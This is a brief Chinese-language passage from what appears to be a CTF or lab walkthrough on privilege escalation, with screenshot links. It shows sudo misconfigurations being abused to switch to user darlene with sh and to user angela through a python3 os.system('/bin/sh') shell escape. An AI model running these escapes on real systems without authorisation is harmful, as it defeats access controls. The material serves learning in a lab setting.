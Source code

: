 ![image-20250325132730739](assets/image-20250325132730739.png)

以darlene身份执行sh



### sh提权

```
sudo -u darlene sh
whoami
```

![image-20250325132802770](assets/image-20250325132802770.png)



### 执行sudo -l

```
sudo -l
```

![image-20250325132829793](assets/image-20250325132829793.png)

以angela身份执行python3



### python提权

```
sudo -u angela python3 -c 'import os; os.system("/bin/sh")'
whoami
```

![image-20250325132927475](assets/image-20250325132927475.png)
